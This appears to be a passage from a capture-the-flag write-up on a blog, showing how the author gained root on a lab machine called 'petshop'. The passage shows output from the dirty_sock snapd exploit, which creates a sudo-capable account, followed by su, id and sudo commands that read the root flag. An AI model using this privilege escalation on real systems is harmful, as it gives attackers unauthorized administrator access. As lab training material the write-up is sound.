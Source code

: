 ```
|| Details || https://initblog.com/2019/dirty-sock     ||
\\=========[]==========================================//


[+] Slipped dirty sock on random socket file: /tmp/ouqtaxscni;uid=0;
[+] Binding to socket file...
[+] Connecting to snapd API...
[+] Deleting trojan snap (and sleeping 5 seconds)...
[+] Installing the trojan snap (and sleeping 8 seconds)...
[+] Deleting trojan snap (and sleeping 5 seconds)...



********************
Success! You can now `su` to the following account and use sudo:
   username: dirty_sock
   password: dirty_sock
********************

```

Well, well, well - did we just root the box?

```
www-data@petshop:/var/www/monitorr$ su dirty_sock
su dirty_sock
Password: dirty_sock

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

dirty_sock@petshop:/var/www/monitorr$ id
id
uid=1001(dirty_sock) gid=1001(dirty_sock) groups=1001(dirty_sock),27(sudo)

```

Yes, we did.

```
dirty_sock@petshop:/$ sudo ls /root
sudo ls /root
root.txt  snap
dirty_sock@petshop:/$ sudo cat /root/root.txt
sudo cat /root/root.txt
THM{YjM***************************NTMx}
```

> Like what you see? Join the [Hashnode.com](/join) now. Things that are awesome:

>✔ Automatic GitHub Backup

>✔ Write in Markdown

>✔ Free domain mapping
